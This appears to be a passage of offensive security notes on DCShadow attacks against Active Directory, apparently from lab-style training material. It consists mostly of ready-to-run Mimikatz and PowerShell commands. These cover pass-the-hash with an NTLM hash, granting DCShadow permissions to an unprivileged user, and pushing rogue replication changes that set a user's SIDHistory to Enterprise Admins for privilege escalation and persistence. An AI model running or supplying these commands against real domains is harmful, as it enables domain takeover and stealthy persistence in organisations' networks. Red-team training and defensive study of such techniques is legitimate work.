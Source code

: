 ### DCShadow Minimal Permissions

- Use DCShadow from machine mcorp-student1 as user student1 to modify root1user object (needs Domain Admin privileges)

```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /run:powershell.exe"'
PS C:\> Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose

# Now, the second Mimikatz instance (which runs as Domain Admin) is not required
# You can use Set-DCShadowPermissions to give these privileges to an unprivileged user (notice that this will leave some logs). This is much more restrictive than having Domain Admin privileges. This means that the username student1 when logged on to the machine mcorp-student1 has DCShadow permissions over the object root1user.

 - Mimikatz1 (RPC servers - Needs SYSTEM privileges)
mimikatz # !+
mimikatz # !processtoken
mimikatz # token::whoami        # Check if SYSTEM
mimikatz # lsadump::dcshadow /object:root1user /attribute:Description /value:="Hello from DCShadow without DA"

- Mimikatz2 (Push - Can be run as student1) (right-click -> Run as administrator)
mimikatz # lsadump::dcshadow /push
```

- Set SIDHistory of a user account to Enterprise Admins or Domain Admins group

```
 - Mimikatz1 (RPC servers - Needs SYSTEM privileges)
mimikatz # !+
mimikatz # !processtoken
mimikatz # token::whoami        # Check if SYSTEM
mimikatz # lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-5-21-560323961-2032768757-2425134131-519

- Mimikatz2 (Push - Needs Domain Admin or similar)
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /impersonate
mimikatz # lsadump::dcshadow /push
OR
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /run:powershell.exe"'
PS C:\> Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose        # To use without Domain Admin
- Mimikatz2 (Push - Can be run as student1) (right-click -> Run as administrator)
mimikatz # lsadump::dcshadow /push        # Do not need Domain Admin
```

- Set primaryGroupID of a user account to Enterprise Admins or Domain Admins group (After the command is used, the user shows up as a member of the Enterprise Admins group in some enumeration techniques such as net group "Enterprise Admins" /domain)
